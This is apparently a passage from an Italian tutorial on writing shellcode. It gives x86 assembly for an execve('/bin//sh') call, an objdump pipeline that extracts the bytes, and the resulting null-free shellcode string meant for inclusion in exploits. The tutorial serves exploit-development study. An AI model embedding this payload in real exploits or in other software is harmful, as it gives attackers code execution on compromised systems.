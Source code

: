 ## Shellcode di partenza

Lo shellcode di partenza è un semplice execve("/bin/sh", NULL, NULL). Il codice
assembler che la realizza è molto semplice, basta ricordare che nel registro
EAX deve essere il contenuto il numero della system call da utilizzare e che i
registri EBX, ECX ed EDX vanno utilizzati per i parametri da passare alla
chiamata.

In particolare EBX dovra contenere il puntatore alla stringa del comando da
eseguire, stringa che andremo a caricare nello stack; ECX ed EDX dovrebbero
contenere rispettivamente un puntatore alla lista degli argomenti del comando e
un puntatore alle variabili d'ambiente che si intende passare al comando. Nel
nostro caso possiamo risparmiare codice e dare un NULL come valore.

{% highlight asm %}
global _start

section .text

_start:
; Executing shell
;
; int execve(const char *filename, char *const argv[], char *const envp[]);
; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

xor eax, eax
push eax        ; The NULL byte
push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
push 0x6e69622f ; "nib/"
mov ebx, esp    ; EBX now points to "/bin//sh"

xor ecx, ecx
xor edx, edx
mov al, 0xB     ; 11 in decimal
int 0x80
{% endhighlight %}

Per trasformare il mio codice binario in un codice eseguibile che può essere
incluso poi in un exploit, utilizzo questo pipe di comandi che ho recuperato
tempo fa in Internet:

{% highlight sh %}
objdump -d _nomefile_ |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
{%endhighlight%}

La nostra shellcode di partenza è questa e non ha byte \x00 che ne
impedirebbero poi l'utilizzo all'atto pratico all'interno di un exploit:

{% highlight sh %}
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
{%endhighlight%}

Qui vediamo la nostra shell originale in esecuzione ed è quello che vogliamo
ottenere da ogni codice offuscato, un prompt di una shell.

